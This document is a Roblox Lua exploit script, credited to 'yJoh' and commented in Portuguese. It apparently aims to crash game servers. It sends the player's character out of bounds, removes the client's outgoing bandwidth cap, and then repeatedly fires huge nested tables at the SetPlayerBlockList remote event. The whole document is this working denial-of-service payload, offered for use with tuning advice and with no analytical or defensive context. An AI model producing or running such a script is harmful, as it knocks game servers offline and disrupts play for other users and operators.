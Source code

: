         ------ By yJoh ------

local char = game:GetService('Players').LocalPlayer.Character or nil
if char then
char.HumanoidRootPart.CFrame = CFrame.new(0,9e9,0)
task.wait(0.5)
char.HumanoidRootPart.Anchored = true
end
while wait(1.5) do --// não mude é o melhor
game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 499999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end
 
local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}
 
table.insert(spammedtable, {})
z = spammedtable[1]
 
for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end
 
local calculatemax = getmaxvalue(tableincrease)
local maximum
 
if calculatemax then
     maximum = calculatemax
     else
     maximum = 999999
end
 
for i = 1, maximum do
     table.insert(maintable, spammedtable)
end
 
for i = 1, tries do
     game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
end
end
 
bomb(250, 5) --// alterar valores se o cliente travar
end
